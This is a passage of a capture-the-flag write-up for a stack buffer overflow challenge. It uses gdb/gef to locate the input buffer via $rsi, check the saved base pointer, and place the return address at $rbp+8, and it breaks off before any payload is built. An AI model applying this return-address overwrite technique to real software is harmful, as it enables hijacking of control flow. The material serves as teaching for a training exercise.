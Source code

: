 &nbsp;

## level 3.1

> Overflow a buffer and smash the stack to obtain the flag!

In order to create a payload we need to know three things:

* [ ] Location of buffer.
* [ ] Location of stored return address.
* [ ] Address of win function.

```
gef➤  run

; -- snip --
Send your payload (up to 10 bytes)!
```

* Once we are prompted to enter our payload we can press `CTRL C` and then enter our payload.

```
gef➤  finish
Run till exit from #0  0x00007f7c7813dfd2 in __GI___libc_read (fd=0x0, buf=0x7ffc615eeba0, nbytes=0xa) at ../sysdeps/unix/sysv/linux/read.c:26
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

The program has now read our payload.

The `read` syscall takes the following arguments:

```c
ssize_t read(int fd, void buf[.count], size_t count);
```

We can see that the second argument is the location to which input is read, and it is stored in `$rsi`.

```
gef➤  p $rsi
$2 = 0x7fff0c8f8e10
```

In this challenge, we have no `win` variable to overwrite.

The way we can divert flow of the program is by overwriting the return address.

We know that the base pointer `$rbp` points to the saved base pointer of the caller function.

Let's check this:

```
gef➤  x/a $rbp
0x7fff0c8f8e90: 0x7fff0c8f9ec0
```

The base pointer `$rbp` has the value `0x7fff0c8f8e90` and it points to `0x7fff0c8f9ec0` which is the `$rbp` of the caller function.

And the return address is stored right before the caller functions base pointer. In our case at `$rbp + 8`.
